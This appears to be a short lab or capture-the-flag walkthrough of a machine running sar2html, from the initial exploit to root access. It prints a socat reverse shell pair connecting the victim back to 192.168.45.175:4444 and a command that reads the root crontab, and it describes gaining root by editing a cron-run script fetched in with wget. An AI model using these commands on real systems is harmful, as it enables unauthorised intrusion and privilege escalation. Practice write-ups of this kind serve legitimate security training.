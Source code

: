 This is not a conventional foothold-privesc type of machine. Only proof.txt is a valid flag.


Target: 192.168.246.35


Nmap found port 80 opened then found this sar2html in robots.txt



Found exploit for sar2html



echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


/usr/sbin

Didn't have a tty shell so found a 
Tested a few different types, php, python, nc (no -e because of version issue but the nc tty without a -e didn't work either) the one that worked was a socat used below commands


On Kali (listen):

1
socat file:`tty`,raw,echo=0 tcp-listen:4444
On Victim (launch):

1
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444

socat once I used the sarhtml exploit to get a dumb shell to convert to a tty



Found with linpeas that I was able to view the crontabs file (/var/spool/cron/crontabs) could have found it with a command after picture though also quicker


cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"


Found that the finally script ran as root from the cron job and all it did was execute the write.sh which I was able to modify, found it horrendous trying to modify in the slow tty shell so I created a new one and tested all the same reverse shells like a dummy that didn't work earlier and realised socat should work since it worked earlier and moved it over with a http server and wget in between the cron jobs and listened on the port 1337 with the same socat listener command used earlier to get a tty shell









